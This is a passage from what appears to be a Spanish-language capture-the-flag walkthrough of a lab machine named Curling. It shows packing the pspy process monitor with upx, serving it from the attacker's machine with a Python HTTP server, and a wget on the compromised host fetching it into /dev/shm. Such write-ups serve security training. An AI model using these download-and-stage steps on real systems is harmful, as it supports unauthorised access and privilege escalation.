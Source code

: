 ```bash
drwxr-xr-x root root  40 B  Fri Mar 18 15:31:34 2022  vendor
.rw-r--r-- root root 259 B  Fri Mar 18 15:34:51 2022  go.mod
.rw-r--r-- root root 811 B  Fri Mar 18 15:34:51 2022  go.sum
.rw-r--r-- root root 870 B  Fri Mar 18 15:31:34 2022  Gopkg.lock
.rw-r--r-- root root 800 B  Fri Mar 18 15:31:34 2022  Gopkg.toml
.rw-r--r-- root root  34 KB Fri Mar 18 15:31:34 2022  LICENSE
.rw-r--r-- root root 211 B  Fri Mar 18 15:31:34 2022  main.go
.rw-r--r-- root root 3.4 KB Fri Mar 18 15:31:34 2022  Makefile
.rwxr-xr-x root root 2.6 MB Fri Mar 18 15:34:52 2022  pspy
.rw-r--r-- root root 8.6 KB Fri Mar 18 15:31:34 2022  README.md
```

Reducimos el tamaña del binario `pspy` con `upx`:

```bash
❯ upx brute pspy
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
upx: brute: FileNotFoundException: brute: No such file or directory
   2752512 ->   1060368   38.52%   linux/amd64   pspy                          

Packed 1 file.
❯ ll
drwxr-xr-x root root  14 B  Fri Mar 18 15:31:34 2022  cmd
drwxr-xr-x root root 302 B  Fri Mar 18 15:31:34 2022  docker
drwxr-xr-x root root  32 B  Fri Mar 18 15:31:34 2022  images
drwxr-xr-x root root  70 B  Fri Mar 18 15:31:34 2022  internal
drwxr-xr-x root root  40 B  Fri Mar 18 15:31:34 2022  vendor
.rw-r--r-- root root 259 B  Fri Mar 18 15:34:51 2022  go.mod
.rw-r--r-- root root 811 B  Fri Mar 18 15:34:51 2022  go.sum
.rw-r--r-- root root 870 B  Fri Mar 18 15:31:34 2022  Gopkg.lock
.rw-r--r-- root root 800 B  Fri Mar 18 15:31:34 2022  Gopkg.toml
.rw-r--r-- root root  34 KB Fri Mar 18 15:31:34 2022  LICENSE
.rw-r--r-- root root 211 B  Fri Mar 18 15:31:34 2022  main.go
.rw-r--r-- root root 3.4 KB Fri Mar 18 15:31:34 2022  Makefile
.rwxr-xr-x root root 1.0 MB Fri Mar 18 15:34:52 2022  pspy
.rw-r--r-- root root 8.6 KB Fri Mar 18 15:31:34 2022  README.md
```

Ahora si lo tranferimos a la máquina víctima bajo un directorio donde tengamos permisos:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [18/Mar/2022 15:36:46] "GET /pspy HTTP/1.1" 200 -
```

```bash
floris@curling:/$ cd /dev/shm/
floris@curling:/dev/shm$ wget http://10.10.14.27/pspy pspy
--2022-03-18 21:36:45--  http://10.10.14.27/pspy
Connecting to 10.10.14.27:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1060368 (1.0M) [application/octet-stream]
Saving to: ‘pspy’

pspy                             100%[=======================================================>]   1.01M  1.22MB/s    in 0.8s    

2022-03-18 21:36:46 (1.22 MB/s) - ‘pspy’ saved [1060368/1060368]

--2022-03-18 21:36:46--  http://pspy/
```